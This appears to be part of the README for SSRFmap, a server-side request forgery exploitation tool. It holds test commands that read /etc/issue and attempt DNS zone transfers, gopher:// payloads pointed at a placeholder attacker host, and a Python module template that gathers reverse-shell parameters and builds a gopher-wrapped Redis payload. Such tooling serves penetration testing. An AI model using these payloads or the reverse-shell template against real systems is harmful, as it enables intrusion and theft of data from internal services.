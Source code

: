 Launch the tests requests:

```ps1
docker exec -it example python ssrfmap.py -r examples/request.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request2.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request3.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request4.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request5.txt -p url -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request6.txt -p X-Custom-Header -m readfiles --rfiles /etc/issue
docker exec -it example python ssrfmap.py -r examples/request.txt -p url -m axfr
docker exec -it example python ssrfmap.py -r examples/request3.txt -p url -m axfr --lhost 127.0.0.1 --lport 53 --ldomain example.lab
```


## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)
```